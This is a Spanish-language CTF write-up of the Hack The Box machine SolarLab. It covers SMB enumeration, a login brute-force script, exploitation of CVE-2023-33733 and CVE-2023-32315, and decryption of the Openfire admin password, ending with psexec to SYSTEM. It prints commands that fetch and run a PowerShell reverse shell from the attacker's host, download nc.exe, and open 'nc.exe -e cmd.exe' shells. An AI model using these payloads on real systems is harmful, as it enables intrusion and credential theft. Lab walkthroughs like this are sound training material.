


+++
author = "Andrés Del Cerro"
title = "Hack The Box: SolarLab Writeup | Medium"
date = "2024-07-27"
description = ""
tags = [
    "HackTheBox",
    "SolarLab",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Network Security",
    "SMB",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Openfire",
    "Exploit",
    "Windows",
    "Python",
    "Scripting",
    "Credentials Reuse",
    "Port Forwarding",
    "Decrypting Password"
]

+++

# Enumeration
## TCP Scan
Primero descubrimos que puertos por TCP están abiertos utilizando `rustscan`
```shell
➜  scan rustscan -a 10.129.231.39 --ulimit 5000 -g
10.129.231.39 -> [80,135,139,445,6791,7680]
```

Y ahora hacemos un escaneo mas exhaustivo sobre estos puertos con `nmap`
```shell
➜  scan nmap -p80,135,139,445,6791,7680 -sCV 10.129.231.39 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-27 14:28 CEST
Nmap scan report for 10.129.231.39
Host is up (0.036s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
|_http-server-header: nginx/1.24.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
6791/tcp open  http          nginx 1.24.0
|_http-server-header: nginx/1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-07-27T12:29:44
|_  start_date: N/A
|_clock-skew: 14s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.61 seconds
```

De estos escaneos sabemos sabemos dos cosas.
Que quizás se estén compartiendo recursos compartidos mediante SMB que sean críticos ya sea utilizando una null session o con credenciales.

Y sabemos que por los redireccionamientos, se está aplicando virtual hosting y descubrimos dos subdominios
- solarlab.htb
- report.solarlab.htb

Vamos a añadir estos subdominios al `/etc/hosts`
```shell
➜  content echo "10.129.231.39  report.solarlab.htb solarlab.htb" | sudo tee -a /etc/hosts
10.129.231.39  report.solarlab.htb solarlab.htb
```

Enumerando el SMB, podemos hacer uso de una null session y con `smbmap` detectamos que tenemos acceso de lectura a un recurso compartido a nivel de red llamado `Documents`
```shell
content smbmap -H solarlab.htb -u null
[+] IP: 10.129.231.39:445	Name: solarlab.htb        	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	Documents                                         	READ ONLY	
	IPC$                                              	READ ONLY	Remote IPC
```

En el documento `old_leave_request_form.docx`, viendo los metadatos, podemos ver un nombre de usuario: **Jackie** y **Alison Melville**

En el documento `Training-Request-Form.docx` detectamos otros nombres de usuario: **Gayle.Rennie** y **FRYATT, Susanne**

En el documento `Travel-Request-Sample.docx`
detectamos otros nombres de usuario:
**Paul Squillace** y **Katy Brown**

En el documento `details-file.xlsx`
encontramos varios usuarios y contraseñas

Con esto nos podemos montar un diccionario de usuario y contraseñas fácilmente.

# Ganando acceso al ReportHub
Ahora que tenemos varios usuarios y contraseñas podemos probar a iniciar sesión en este panel.
El problema es que no está el protocolo de Kerberos habilitado (por ejemplo) para poder comprobar que usuarios existen a nivel de sistema y poder sacar conclusiones mas fácilmente.

Después de probar los usuarios, los usuarios `AlexanderK` y `ClaudiaS` producen errores distintos, por lo cual esta es una forma de enumerar usuarios.


He hecho un pequeño script para hacer un ataque por diccionario probando todos los usuarios y contraseñas obtenidos y también haciendo algunas combinaciones
```python
#!/usr/bin/python3
import requests
from pwn import *
LOGIN_ENDPOINT="http://report.solarlab.htb:6791/login"
USERFILE="/home/kali/Desktop/solarlab/content/users.txt"
PASSFILE="/home/kali/Desktop/solarlab/content/passwords.txt"


def brute():
    log.progress('Bruteforcing ', LOGIN_ENDPOINT)
    s = requests.Session()
    s.get(LOGIN_ENDPOINT)
    p = log.progress('Bruteforcing...')
    p.status('Trying:')
    for user in open(USERFILE, 'r'):
        for pwd in open(PASSFILE, 'r'):
            p.status("Trying {0}:{1}".format(user.strip(), pwd.strip()))
            data = {'username': user.strip(), 'password': pwd.strip()}
            headers = {'Content-Type': 'application/x-www-form-urlencoded'}
            r = s.post(LOGIN_ENDPOINT, data = data, headers = headers)
            if r.headers.get('Content-Length') != '2144' and r.headers.get('Content-Length') != '2133':
                log.success("Got a hit! " + user.strip() + ":" + pwd.strip())

if __name__ == "__main__":
    brute()
```

Y conseguimos unas credenciales válidas!
```shell
➜  content python3 brute.py
[▖] Bruteforcing : http://report.solarlab.htb:6791/login
[d] Bruteforcing...: Trying Katy.Brown:dadsfawe9dafkn
[+] Got a hit! BlakeB:ThisCanB3typedeasily1@
```

# Foothold
Antes de explorar el sitio web, me interesa saber si este sitio es un CMS reconocido y tiene vulnerabilidades encontradas.


Y parece que tiene un RCE asociado.
[CVE-2023-33733](https://github.com/L41KAA/CVE-2023-33733-Exploit-PoC)

Parece que se acontece una inyección de comandos a la hora de añadir un párrafo en cualquier funcionalidad


Voy a intentar mandándome un ping
```shell
➜  CVE-2023-33733-Exploit-PoC git:(main) python3 exp.py --host 'report.solarlab.htb' --port 6791 --username 'BlakeB' --password 'ThisCanB3typedeasily1@' --cmd 'ping 10.10.14.71'
[*] Logging in to http://report.solarlab.htb:6791/login
Retreived session cookie: session=.eJwljjsOw0AIBe9CnQLWfBZfxjJrUNLacRXl7lkp0715zXxgqzOvJ6zv884HbK8DVoh9aC48GnM5YYjsncJHVsrwEUi1OLt1iXlL10RPw0NSbBIh3lpG2WLUVSPUHaf25hyszCqCJuqhDa2a78GEpKlzlxwwQ-4rz38NwfcHgZgttg.ZqU7AA.XHsnPDC8phcG6BMnDvLQbf2lGYM; HttpOnly; Path=/
[*] Extracting session token...
[*] Token extracted:  .eJwljjsOw0AIBe9CnQLWfBZfxjJrUNLacRXl7lkp0715zXxgqzOvJ6zv884HbK8DVoh9aC48GnM5YYjsncJHVsrwEUi1OLt1iXlL10RPw0NSbBIh3lpG2WLUVSPUHaf25hyszCqCJuqhDa2a78GEpKlzlxwwQ-4rz38NwfcHgZgttg.ZqU7AA.XHsnPDC8phcG6BMnDvLQbf2lGYM
[*] Building Exploit...
[*] Exploit built
[*] Preparing request
[*] Sending request to http://report.solarlab.htb:6791/leaveRequest
[*] Sending a reverse shell should cause request to hang
[*] Request sent
[*] Probable success. Status Code 500
```

```shell
➜  ~ sudo tcpdump -i tun0 icmp
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:22:41.575007 IP report.solarlab.htb > 10.10.14.71: ICMP echo request, id 1, seq 1, length 40
20:22:41.575163 IP 10.10.14.71 > report.solarlab.htb: ICMP echo reply, id 1, seq 1, length 40
20:22:42.579868 IP report.solarlab.htb > 10.10.14.71: ICMP echo request, id 1, seq 2, length 40
20:22:42.579885 IP 10.10.14.71 > report.solarlab.htb: ICMP echo reply, id 1, seq 2, length 40
20:22:43.586730 IP report.solarlab.htb > 10.10.14.71: ICMP echo request, id 1, seq 3, length 40
20:22:43.586749 IP 10.10.14.71 > report.solarlab.htb: ICMP echo reply, id 1, seq 3, length 40
20:22:44.593617 IP report.solarlab.htb > 10.10.14.71: ICMP echo request, id 1, seq 4, length 40
20:22:44.593634 IP 10.10.14.71 > report.solarlab.htb: ICMP echo reply, id 1, seq 4, length 40
```

Perfecto, ahora con `nishang` voy a mandarme una RevShell

Nos montamos un servidor web con python y compartimos la típica Reverse Shell de nishang, `Invoke-PowerShellTcp.ps1`

Y con `powershell.exe -c iex (iwr http://10.10.14.71/Invoke-PowerShellTcp.ps1)` nos mandamos la revshell.

```powershell
PS C:\Users\blake\Documents\app>whoami
solarlab\blake
```

# Consiguiendo mas credenciales
En la ruta `C:\Users\blake\Documents\app\instance` encontramos un archivo `users.db` que contiene credenciales para otros usuarios

```powershell
PS C:\Users\blake\DOcuments\app\instance> type users.db
SQLite format 3@  .j?
?!!??+?9tableuseruserCREATE TABLE user (
	id INTEGER NOT NULL,
	username VARCHAR(50) NOT NULL,
	password VARCHAR(100) NOT NULL,
	PRIMARY KEY (id),
	UNIQUE (username)
)';indexsqlite_autoindex_user_1user
????!)alexanderkHotP!fireguard'claudias007poiuytrewq 9blakebThisCanB3typedeasily1@
????!alexanderk
               claudias		blakeb
```

Sin embargo, no vemos que existan estos usuarios a nivel de sistema.
```powershell
PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        11/17/2023  10:03 AM                Administrator
d-----        11/16/2023   9:43 PM                blake
d-----        11/17/2023   2:13 PM                openfire
d-r---        11/17/2023  12:54 PM                Public
```

Pero las contraseñas nos podrían servir mas adelante.
También me llama un poco la atención ese directorio personal de trabajo `openfire` , ya que es un servicio común que quizás nos pueda servir ara escalar privilegios.

De hecho, encontramos vulnerabilidades asociadas a este servicio. Encontramos un Authentication Bypass y un RCE.
[CVE-2023-32315](https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass)

# Pivoting a `openfire`
Este servicio utiliza por defecto el puerto 9090.


En la máquina víctima podemos ver que está abierto


Ahora con chisel hacemos un reverse port forwarding.

```shell
➜  ~ /usr/share/chisel server --reverse -p 1234
```

```powershell
PS C:\Windows\Temp\work> .\chisel client 10.10.14.71:1234 R:9090:127.0.0.1:9090
```

Al final utilicé este [RCE](https://github.com/miko550/CVE-2023-32315)
Primero creamos el usuario.
```shell
➜  CVE-2023-32315 git:(main) python3 CVE-2023-32315.py -t http://127.0.0.1:9090
....
User added successfully: url: http://127.0.0.1:9090 username: l7be2x password: 3puzku
```


Ya hemos ganado acceso al panel, ahora en principio, se debe de acontecer una vulnerabilidad de tipo RCE para poder ganar acceso al sistema como el usuario `openfire`


Aquí podemos inyectar un archivo `.jar` malicioso y conseguir ejecución de comandos.
Voy a subir el `.jar` que viene en el PoC

Y ahora en esta ruta
`http://127.0.0.1:9090/plugins/openfire-management-tool-plugin/cmd.jsp`

Tenemos una webshell.
Ahora primero nos descargamos nc desde la webshell.
`powershell.exe "iwr http://10.10.14.71/nc.exe -o nc.exe"`

Y ahora nos mandamos una cmd `nc.exe 10.10.14.71 443 -e cmd.exe`

```cmd
C:\Program Files\Openfire\bin>whoami
whoami
solarlab\openfire

C:\Program Files\Openfire\bin>
```

Enumerando un poco los archivos de openfire, nos damos cuenta de un directorio un tanto peculiar.
`07/27/2024  08:29 PM    <DIR>          embedded-db`

```cmd
C:\Program Files\Openfire\embedded-db>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 385E-AC57

 Directory of C:\Program Files\Openfire\embedded-db

07/27/2024  08:29 PM    <DIR>          .
07/27/2024  08:29 PM    <DIR>          ..
07/27/2024  08:29 PM                 0 openfire.lck
07/27/2024  09:40 PM             1,188 openfire.log
07/27/2024  08:29 PM               106 openfire.properties
05/07/2024  09:53 PM            16,161 openfire.script
07/27/2024  08:29 PM    <DIR>          openfire.tmp
               4 File(s)         17,455 bytes
               3 Dir(s)   7,777,484,800 bytes free
```

En el fichero `openfire.script` encontramos esta linea.
```sql
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
```

Así que tenemos una pwd encriptada.
`becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442`

Haciendo una búsqueda rápida en Google, podemos encontrar este repositorio que nos indica como podemos desencriptar esta credencial.
[openfire_decrypt](https://github.com/c0rdis/openfire_decrypt)

# Crackeando la contraseña del usuario administrador

Analizando el código del script adjuntado, vemos que se utiliza una clave secreta para encriptar las pwd, por lo cual, también debe rondar por la base de datos.
`SecretKeySpec key  = new SecretKeySpec (keyParam, "Blowfish")`

```java
import javax.crypto.Cipher;
import java.security.MessageDigest;
import javax.crypto.spec.SecretKeySpec;
import javax.crypto.spec.IvParameterSpec;

public class OpenFireDecryptPass
{
  public static void main(String[] argv) throws Exception
  {
    if (argv.length < 2)
    {
      System.out.println("[-] Please specify the encypted password and the \"passwordKey\"");
      return;
    }
    
    MessageDigest md = MessageDigest.getInstance ("SHA-1");

    byte[] keyParam = md.digest (argv[1].getBytes ("utf8"));
    byte[] ivBytes  = hex2bytes (argv[0].substring (0, 16));
    byte[] encryptedString = hex2bytes (argv[0].substring (16)); // 8 * 2 (since hex)

    IvParameterSpec iv = new IvParameterSpec (ivBytes);
    SecretKeySpec key  = new SecretKeySpec (keyParam, "Blowfish");

    Cipher cipher = Cipher.getInstance ("Blowfish/CBC/PKCS5Padding");
    cipher.init (Cipher.DECRYPT_MODE, key, iv);
    byte[] decrypted = cipher.doFinal (encryptedString);

    String decryptedString = bytes2hex (decrypted);

    System.out.println (new String(decrypted) + " (hex: " + decryptedString + ")");
  }

  public static byte[] hex2bytes(String str)
  {
    if (str == null || str.length() < 2) return null;
    else
    {
      int len = str.length() / 2;
      byte[] buffer = new byte[len];

      for (int i = 0; i < len; i++) buffer[i] = (byte) Integer.parseInt(str.substring(i * 2, i * 2 + 2), 16);

      return buffer;
    }

  }

  public static String bytes2hex(byte[] data)
  {
    if (data == null) return null;
    else
    {
      int len = data.length;

      String str = "";

      for (int i = 0; i < len; i++)
      {
        if ((data[i] & 0xFF) < 16) str = str + "0" + java.lang.Integer.toHexString(data[i] & 0xFF);
        else str = str + java.lang.Integer.toHexString(data[i] & 0xFF);
      }
      return str.toUpperCase();
    }
  }
}
```

Revisando otra vez el `openfire.script` encontramos lo que buscabamos.
`INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)`

Ahora, primero compilamos el script y luego le pasamos como argumentos posicionales el hash encontrado y acto seguido la clave secreta.

```shell
➜  content javac OpenFireDecryptPass.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
➜  content java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
ThisPasswordShouldDo!@ (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)
```

# Consiguiendo una shell como Administrator
Entonces, ahora podemos probar estas credenciales para el usuario `Administrator` a ver si se reutilizan las credenciales..

Y con `NetExec` podemos comprobar que son válidas, así que ahora con `impacket-psexec` podemos conseguir una consola como `nt\authority system`

```shell
➜  content nxc smb 10.129.231.39 -u 'Administrator' -p 'ThisPasswordShouldDo!@'
SMB         10.129.231.39   445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.129.231.39   445    SOLARLAB         [+] solarlab\Administrator:ThisPasswordShouldDo!@ (Pwn3d!)
```

```shell
➜  content impacket-psexec solarlab.htb/Administrator:'ThisPasswordShouldDo!@'@10.129.231.39
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.231.39.....
[*] Found writable share ADMIN$
[*] Uploading file uLpOgqoX.exe
[*] Opening SVCManager on 10.129.231.39.....
[*] Creating service olGN on 10.129.231.39.....
[*] Starting service olGN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


Feliz Hacking! 🚀